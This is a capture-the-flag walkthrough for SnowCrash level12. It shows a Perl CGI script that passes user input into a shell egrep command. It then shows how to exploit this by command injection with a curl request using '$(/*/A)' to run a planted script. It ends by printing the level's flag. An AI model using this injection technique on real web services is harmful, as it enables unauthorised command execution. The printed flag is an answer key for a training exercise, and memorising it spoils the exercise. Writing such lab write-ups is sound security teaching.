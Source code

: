 
# SnowCrash Level12 Walkthrough

This walkthrough explains how we exploited a Perl web service vulnerability to execute arbitrary commands and retrieve the flag for `level12`.

---

## 🧭 Step 1: Exploring the Environment

We start by listing the home directory:

```bash
level12@SnowCrash:~$ ls
level12.pl
```

We find a Perl script named `level12.pl`.

---

## 📖 Step 2: Understanding the Perl Script

We read the file:

```bash
level12@SnowCrash:~$ cat level12.pl
```

It contains:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

### 🔍 Explanation:

- The script runs a web server on `localhost:4646`.
- It uses `CGI` to receive two parameters: `x` and `y`.
- It transforms `x` to uppercase and removes whitespace and everything after it.
- Then, it runs a command: `` `egrep "^$xx" /tmp/xd` ``, which is vulnerable to command injection.

**Key Vulnerability**: The user-controlled input `x` is directly interpolated into a shell command — this allows **command injection**.

---

## ⚙️ Step 3: Prepare a Malicious Script

We create a file that executes the `getflag` command:

```bash
echo "getflag > /tmp/test" > /tmp/A
```

✅ We redirect the output of `getflag` into a file called `/tmp/test`.

Next, we make the file executable:

```bash
chmod +x /tmp/A
```

---

## 🚀 Step 4: Trigger the Exploit via Curl

Now we use `curl` to send a malicious `x` parameter to the Perl server:

```bash
level12@SnowCrash:~$ curl 'localhost:4646/?x=$(/*/A)'
```

### 🔍 Explanation:

- `$(/*/A)` expands to `/tmp/A`, and executes it in a shell.
- Since the script uses backticks (`` `egrep "^$xx" /tmp/xd` ``), our command gets executed.
- This runs `getflag > /tmp/test` on the server.

---

## 📄 Step 5: Read the Flag Output

We verify the result:

```bash
level12@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Success!

---

## ✅ Summary

- Found a Perl script vulnerable to command injection through user input.
- Injected a shell command via a specially crafted `curl` request.
- Retrieved the flag from a temporary file written by our malicious script.

---

### 🎯 **Flag:** `g1qKMiRpXf53AWhDaU7FEkczr`
